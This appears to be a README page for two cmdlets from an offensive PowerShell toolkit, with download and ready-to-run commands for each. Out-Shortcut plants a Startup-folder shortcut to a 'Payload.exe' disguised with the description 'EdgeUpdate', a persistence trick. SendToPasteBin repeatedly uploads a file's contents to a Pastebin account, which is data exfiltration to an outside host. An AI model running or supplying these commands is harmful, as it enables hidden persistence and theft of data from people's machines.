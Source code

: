 ## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Out-shortcut|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

<br />

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|SendToPasteBin|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

<br />

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   
